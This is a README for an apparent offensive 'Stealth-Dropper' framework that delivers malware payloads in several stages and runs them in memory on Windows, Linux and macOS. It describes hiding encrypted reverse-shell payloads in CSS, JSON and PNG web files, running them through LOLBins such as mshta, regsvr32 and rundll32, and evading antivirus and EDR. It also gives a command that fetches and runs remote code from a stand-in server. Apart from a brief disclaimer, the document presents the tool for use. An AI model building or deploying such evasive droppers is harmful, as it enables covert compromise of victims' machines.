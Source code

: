# 🕵️‍♂️ Stealth-Dropper Framework

> Multi-stage, multi-platform in-memory payload delivery system — built for **stealth**, **flexibility**, and **modern bypass**.

---

## 🎯 Features

- 🔒 **Full In-Memory Execution**: No payloads are written to disk.
- 🧠 **Multi-Stage Architecture**:
  - Stage 1: lightweight dropper, decrypts & executes Stage 2
  - Stage 2: encrypted payload (XOR + Base64), delivered via CSS/JSON/etc.
- 🎭 **Payload Hiding**:
  - Encrypted payloads embedded in:
    - `style.css` (as `content`)
    - `manifest.json`
    - `favicon.png` (optional stego)
- 🧬 **Built-in Obfuscation**:
  - Encrypted XOR+Base64 payload
  - LOLBins for execution (`mshta`, `regsvr32`, `rundll32`)
- 🧾 **JavaScript Dropper (`decrypt.html`)**:
  - Executes without `Invoke-Expression (IEX)`
  - Designed for `mshta.exe` execution
- 🦠 **Sandbox & AV Evasion**:
  - Optional anti-VM/anti-sandbox checks (WIP)
  - Designed for 2025-era Windows Defender + EDR bypass
- 💻 **Multi-Platform Support**:
  - Windows (PowerShell, LOLBins)
  - Linux (bash payloads)
  - macOS (osascript)

---

## 📁 Project Structure

```
stealth-dropper/
├── build_and_run.sh          # Payload builder and runner
├── config/                   # Configuration and runtime parameters
├── payloads/                 # Organized by OS and payload type
│   ├── windows/
│   │   ├── shell_reverse/
│   │   └── lolbins/
│   ├── linux/
│   └── mac/
├── tools/                    # Encryptors, embedders, stego tools
├── web/                      # Web delivery files (CSS, HTML, etc.)
└── README.md
```

---

## 🚀 Quick Start

```bash
chmod +x build_and_run.sh
./build_and_run.sh
```

The script will prompt you to select:
1. Target OS (windows, linux, mac)
2. Payload type (e.g. reverse shell)
3. It will:
   - Encrypt the raw payload
   - Embed it in CSS or JSON
   - Output the final files into `web/` for serving

---

## 🛠 Tools Included

- `encryptor.py`: XOR + Base64 encryption
- `embed_in_css.py`: Injects payload into CSS `::after`
- `embed_in_manifest.py`: JSON embedding (browser extension style)
- `embed_in_png.py`: Stego placeholder (optional)

---

## 🧪 Execution Flow (Windows example)

1. Host `web/decrypt.html` + `style.css`
2. User executes:
   ```bash
   mshta http://yourserver/decrypt.html
   ```
3. JavaScript reads encrypted payload from CSS
4. Decodes → Decrypts → Executes in memory via `ScriptBlock::Create()`
5. No artifacts left on disk

---

## ⚠️ Disclaimer

This framework is for **educational** and **authorized penetration testing** purposes **only**.

Use responsibly.
